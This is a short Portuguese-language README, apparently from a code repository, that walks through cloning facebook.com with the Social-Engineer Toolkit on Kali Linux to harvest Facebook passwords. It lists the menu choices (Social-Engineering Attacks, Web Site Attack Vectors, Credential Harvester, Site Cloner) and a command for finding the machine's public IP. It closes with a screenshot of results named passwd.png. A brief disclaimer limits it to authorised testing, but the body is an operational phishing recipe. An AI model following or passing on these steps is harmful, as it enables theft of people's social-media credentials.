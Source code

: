 # Phishing para captura de senhas do Facebook

**Nota:** Este procedimento deve ser usado apenas para fins educacionais e de testes de segurança autorizados. A utilização sem consentimento é ilegal e antiética.


### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o IP público da máquina: ``` curl ifconfig.me ``` ao invés de usar o ``` ifconfig ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Resutados

![Alt text](./passwd.png "Optional title")
